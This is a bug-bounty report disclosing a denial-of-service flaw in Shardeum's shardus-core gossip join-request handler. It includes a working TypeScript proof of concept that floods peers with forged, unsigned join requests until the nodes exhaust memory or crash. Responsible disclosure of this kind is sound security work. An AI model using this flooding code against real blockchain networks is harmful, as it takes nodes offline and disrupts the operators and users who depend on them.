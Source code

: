 
# DoS attack on peer nodes through `gossip-valid-join-requests` due to insufficient validations

Submitted on Fri Jul 19 2024 11:59:29 GMT-0400 (Atlantic Standard Time) by @GuplerSaxanoid for [Boost | Shardeum: Core](https://immunefi.com/bounty/shardeum-core-boost/)

Report ID: #33395

Report type: Blockchain/DLT

Report severity: Insight

Target: https://github.com/shardeum/shardus-core/tree/dev

Impacts:
- Shutdown of greater than or equal to 30% of network processing nodes without brute force actions, but does not shut down the network
- Increasing network processing node resource consumption by at least 30% without brute force actions, compared to the preceding 24 hours

## Description
## Brief/Intro
A malicious node is able to perform DoS attack on peers through `gossip-valid-join-requests` gossip route due to lack of checks on resource consumption, lack of signature verification and insufficient duplication checks

## Vulnerability Details
The vulnerability arises from a series of flaws left behind in `gossip-valid-join-requests`:

1. There is no limit to size of newJoinRequests list
2. There is no signature verification happening anywhere along the execution path leading to addition of JoinRequest to newJoinRequests list
3. Duplication checks happen against publickey instead of ip/port pairs. This is redundant since publickey can be any random string (due to absence of signature verification)

These vulnerabilities aid a malicious node to iteratively flood the subject with `gossip-valid-join-requests` for the first two quarters of a cycle and exhaust the target node's memory. If the target node manages to go past the memory exhaustion phase, a fatal error will occur when it tries to convert the given public key to a curve public key.

## Impact Details
The malicious node is able to bring down it's peer nodes either by memory exhaustion or by a fatal error in trying to convert the given publickey string to a curve public key. Given that the malicious node is able to gossip to all the nodes in a shard, it will bring down an entire shard with this exploit. 

The Impact of this DoS attack from a single node is constricted to the shard that it belongs to. Given the uniform distribution nature of the random function that assigns shards to nodes joining the network, an adversary controlling 3 or more nodes can expand their impact to 3 or more shards, which is approximately 30% of a network comprising 10-11 shards.

Expanding the impact to the entire network is a matter of probability since there is no known method for the adversary to manipulate the random function to place their nodes in every single shard. Deriving further from that fact, causing a total network shutdown is a matter of probability and therefore this is not a critical vulnerability (although it could might well turn out to be one).

## References
Beginning of `gossip-valid-join-requests` gossip handler: https://github.com/shardeum/shardus-core/blob/4d75f797a9d67af7a94dec8860220c4e0f9ade3c/src/p2p/Join/routes.ts#L427
        
## Proof of concept
## Proof of Concept

1. Register the following external route to enact a malicious node: (NOTE: "allowUnreachableCode" option needs to be enabled in tsconfig.json as this code contains an infinite loop) 

```ts
import { JoinRequest } from '@shardus/types/build/src/p2p/JoinTypes'
import * as Comms from '@shardus/core/dist/p2p/Comms';
import { nodeListFromStates } from "@shardus/core/dist/p2p/Join";
import * as Self from "@shardus/core/dist/p2p/Self";
import * as CycleChain from "@shardus/core/dist/p2p/CycleChain";

shardus.registerExternalPost('gossip-join-dos-attack', externalApiMiddleware, async (req, res) => {
        var i = 0;
        while(true) {
            const obj: JoinRequest = {
                nodeInfo: {
                    publicKey: "pk"+i,
                    externalIp: "127.0.0.1",
                    externalPort: 80,
                    internalIp: "",
                    internalPort: 0,
                    address: "",
                    joinRequestTimestamp: CycleChain.newest.start,
                    activeTimestamp: CycleChain.newest.start,
                    syncingTimestamp: CycleChain.newest.start,
                    readyTimestamp: CycleChain.newest.start,
                },
                selectionNum: "1",
                proofOfWork: "",
                cycleMarker: "",
                version: "",
                sign: {
                    owner: "pk"+i,
                    sig: ""
                },
                appJoinData:{
                  version: AccountsStorage.cachedNetworkAccount.current.minVersion,
                  stakeCert: "",
                  adminCert: "",
                  mustUseAdminCert: false
                }
            }
    
            await Comms.sendGossip(
                "gossip-valid-join-requests",
                obj,
                "",
                Self.id as any,
                nodeListFromStates([
                    P2P.P2PTypes.NodeStatus.ACTIVE,
                    P2P.P2PTypes.NodeStatus.READY,
                    P2P.P2PTypes.NodeStatus.SYNCING,
                  ]),
                false
            )

            i++;
        }

    return res.json("");
  })
```

2. Spin up a local network, and wait for the nodes to go active
3. Make a POST call to `gossip-join-dos-attack` endpoint
4. Wait for a while and observe the nodes go offline 

There are three exit logs provided in the github gist link for evidence.